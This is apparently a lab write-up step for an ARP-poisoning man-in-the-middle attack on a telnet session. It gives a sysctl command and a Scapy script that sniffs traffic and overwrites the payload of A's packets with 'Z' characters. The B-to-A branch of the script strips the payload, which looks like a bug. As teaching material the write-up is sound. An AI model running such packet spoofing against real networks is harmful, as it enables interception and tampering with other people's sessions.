 ### Step 4: Launching the Attack

1. Poison the cache entries of A and B from host M. (Step 1).
2. Connect via telnet from host A to host B.
3. Turn off IP Forwarding on host M.
```
sysctl net.ipv4.ip_forward=0
```

4. Write code that sniffs packets sent by either A or B. If it is generated by A, then it needs to be spoofed. If it is generated by B, then it needs to be sent back to A.

```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
    # listen for packets. If a packet is going from A to B, then spoof.
    if pkt[IP].src == A_IP and pkt[IP].dst == B_IP and pkt[Ether].src != M_MAC:
        # create a new packet but remove checksums and TCP payload.
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            # replace every character with a Z.
            data_list = list(data)
            for i in range(len(data_list)):
                data_list[i] = ord('Z')
            newdata = bytes(data_list)
            send(newpkt/newdata)
        else:
            send(newpkt)
    # if a packet is going from B to A, then send it to A.
    elif pkt[IP].src == B_IP and pkt[IP].dst == A_IP and pkt[Ether].src == M_MAC:
        
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        send(newpkt)

# captures only packets that are not sent by the attacker.
f = f"ip host {A_IP} or ip host {B_IP}"
pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

